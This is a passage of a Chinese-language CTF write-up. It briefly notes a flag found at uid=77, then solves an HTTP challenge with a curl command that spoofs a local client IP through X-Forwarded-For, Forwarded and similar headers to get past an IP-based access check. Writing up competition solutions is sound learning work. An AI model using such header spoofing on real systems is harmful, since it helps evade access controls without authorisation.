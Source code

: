 在uid=77的时候发现flag

![uid=77是个吉利的数字](./web-7-1.png)

## web-8 听说你也了解HTTP

先根据提示一步一步的构造请求，到最后一步需要本地IP才能访问，通过header伪造本地IP。

```shell
curl --location --request POST 'https://httpheader-ctfd.dun.mi.com/?flag=i_want_it' \
--header 'authority: httpheader-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'cookie:xxx TODO cookie' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: application/json' \
--header 'X-Forwarded-For: 127.0.0.1' \
--header 'Proxy-Client-IP: 127.0.0.1' \
--header 'Referer: 127.0.0.1' \
--header 'X-Forwarded-For: 127.0.0.1' \
--header 'X-Forwarded: 127.0.0.1' \
--header 'Forwarded-For: 127.0.0.1' \
--header 'Forwarded: 127.0.0.1' \
--header 'X-Forwarded-Host: 127.0.0.1' \
```